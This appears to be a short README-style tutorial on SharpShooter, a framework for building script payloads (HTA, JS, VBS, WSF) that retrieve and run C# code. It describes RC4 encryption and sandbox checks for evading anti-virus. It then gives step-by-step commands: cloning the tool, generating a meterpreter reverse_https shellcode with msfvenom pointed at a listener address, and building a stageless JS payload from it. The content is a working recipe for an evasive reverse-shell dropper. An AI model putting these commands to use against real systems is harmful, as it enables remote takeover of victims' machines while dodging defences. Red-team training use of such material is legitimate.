 SharpShooter is a payload creation framework for the retrieval and execution of arbitrary CSharp source code. SharpShooter is capable of creating payloads in a variety of formats, including HTA, JS, VBS and WSF. It leverages James Forshaw's [DotNetToJavaScript](https://github.com/tyranid/DotNetToJScript) tool to invoke methods from the SharpShooter DotNet serialised object. Payloads can be retrieved using Web or DNS delivery or both; SharpShooter is compatible with the MDSec ActiveBreach PowerDNS project. Alternatively, stageless payloads with embedded shellcode execution can also be generated for the same scripting formats.

SharpShooter payloads are RC4 encrypted with a random key to provide some modest anti-virus evasion, and the project includes the capability to integrate sandbox detection and environment keying to assist in evading detection.

Install:

```
kali@kali:/opt$ sudo git clone https://github.com/mdsecactivebreach/SharpShooter.git

kali@kali:/opt$ cd SharpShooter/
kali@kali:/opt/SharpShooter$ sudo pip install -r requirements.txt
```

First Generate shellcode with msf:

```
kali@kali:/opt/SharpShooter$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f raw -o /var/www/html/shell.txt
```

Generate a js payload:
```
kali@kali:/opt/SharpShooter$ sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test
```
